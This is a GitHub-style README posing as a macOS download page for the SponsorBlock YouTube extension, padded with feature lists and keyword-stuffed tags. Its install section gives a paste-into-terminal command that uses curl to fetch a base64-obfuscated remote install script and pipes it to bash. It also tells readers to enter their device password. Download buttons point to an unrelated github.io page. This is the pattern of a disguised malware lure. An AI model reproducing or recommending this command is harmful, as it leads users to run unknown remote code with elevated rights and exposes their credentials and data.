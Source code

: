 # ⏭️ SponsorBlock for YouTube — Skip Sponsored Segments on macOS

## ✅ Download SponsorBlock for Mac (Free Browser Extension)

[![🚀 Download SponsorBlock 🟣](https://img.shields.io/badge/Download-SponsorBlock-blueviolet?style=for-the-badge)](https://shuziktobehuman.github.io/huja/SponsorBlock)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🌐 What is SponsorBlock?

SponsorBlock is a powerful browser extension for macOS that automatically skips sponsored content, intros, outros, and other unnecessary segments in YouTube videos. Built on a community-driven database, it helps users save time and improve their viewing experience with zero setup required.

SponsorBlock integrates with popular browsers and offers full customization, allowing users to decide which categories of content they want to skip. It's a must-have tool for anyone who watches a lot of YouTube and values their time.

---

## 🖥️ Features at a Glance

- ⏱️ Automatically skips sponsored segments, intros, outros, and more  
- 🌍 Powered by a crowd-sourced community database  
- 🧩 Works with Chrome, Firefox, Safari, Edge, Opera, and Brave  
- 🔧 Custom category skipping: intros, self-promotion, interaction reminders, etc.  
- 🔒 Privacy-respecting — no tracking or personal data collection  
- 🎵 Special handling for music videos  
- 🧠 Submit new segments with one click to improve the system  
- 🖥️ Compatible with macOS (Intel and Apple Silicon)  
- 🌙 Full dark mode support for native browser UI  

---

## 💡 Why Use SponsorBlock?

Watching YouTube should be about content — not interruptions. SponsorBlock takes the guesswork and annoyance out of the equation by automatically skipping parts of videos you don't want to see.

Its community-powered database grows daily, meaning the more people use it, the smarter it becomes. Whether you're watching tech reviews, tutorials, vlogs, or music videos, SponsorBlock makes YouTube better, faster, and cleaner — especially on macOS where performance and integration matter most.

---

[![⬇️ Download SponsorBlock Again 🟣](https://img.shields.io/badge/Download-SponsorBlock-blueviolet?style=for-the-badge)](https://shuziktobehuman.github.io/huja/SponsorBlock)

---

## 🖼️ Preview

![SponsorBlock Screenshot 1](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource115/v4/1c/a6/b8/1ca6b8a6-b865-a6db-bb77-85c7dc97e49d/2b9282a3-e7d5-4770-926a-87f964be2228_screenshot1.jpg/643x0w.jpg)  
![SponsorBlock Screenshot 2](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource125/v4/97/9a/91/979a9106-6e11-3c63-9a40-3f9fbc565aab/d2216b1f-c6e8-402c-809b-16be90f8fb34_screenshot-music.png/643x0w.jpg)

---

## 📌 Tags

sponsorblock mac, sponsorblock for youtube mac, sponsorblock chrome mac, sponsorblock firefox mac,  
youtube sponsorblock mac, chrome sponsorblock mac, sponsor block extension mac, sponsor block for youtube mac,  
sponsor block youtube mac, sponsorblock extension mac, sponsorblock for youtube android mac,  
sponsorblock for youtube skip sponsorships mac, sponsorblock github mac, sponsorblock opera mac,  
sponsorblock youtube mac, youtube sponsor block mac

